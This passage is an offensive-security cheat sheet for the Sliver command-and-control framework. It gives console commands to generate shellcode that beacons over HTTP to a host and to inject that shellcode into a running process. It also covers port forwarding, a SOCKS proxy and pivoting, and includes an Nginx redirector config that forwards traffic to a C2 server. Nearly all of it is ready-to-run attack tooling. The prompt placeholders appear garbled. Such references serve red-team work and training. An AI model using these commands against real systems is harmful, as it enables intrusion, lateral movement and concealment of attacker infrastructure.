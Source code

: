 ```console
sliver (NEARBY_LANGUAGE) > interactive
sliver (NEARBY_LANGUAGE) > generate --format shellcode --http acme.com --save /PATH/TO/BINARY/
sliver (NEARBY_LANGUAGE) > execute-shellcode -p <PID> /PATH/TO/BINARY/<FILE>.bin
```

### Port Forwarding

```console
sliver (NEARBY_LANGUAGE) > portfwd
sliver (NEARBY_LANGUAGE) > portfwd add -r <RHOST>:<RPORT>
sliver (NEARBY_LANGUAGE) > portfwd add -b 127.0.0.1:<RPORT> -r 127.0.0.1:<RPORT>
sliver (NEARBY_LANGUAGE) > portfwd add --bind 127.0.0.1:<RPORT> -r <RHOST>:<RPORT>
sliver (NEARBY_LANGUAGE) > portfwd rm -i <ID>
```

### SOCKS Proxy

```console
sliver (NEARBY_LANGUAGE) > socks5 start
sliver (NEARBY_LANGUAGE) > socks5 stop -i 1
```

### Pivoting

```console
sliver (NEARBY_LANGUAGE) > pivots tcp
sliver (NEARBY_LANGUAGE) > generate --tcp-pivot <RHOST>:<RPORT>
sliver (NEARBY_LANGUAGE) > pivots
```

### Redirector

#### Nginx

##### Basic VHost Configuration

```console
server {
    listen 8443 default_server;
    listen [::]:8443 default_server;

    root /var/www/html;

    index index.html index.htm;

    server_name <DOMAIN>;

    location / {
        try_files $uri $uri/ @c2;
    }

    location @c2 {
        proxy_pass http://<RHOST>:8443;
        proxy_redirect off;
        proxy_ssl_verify off;
        proxy_set_header Host $host;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    }
}
```
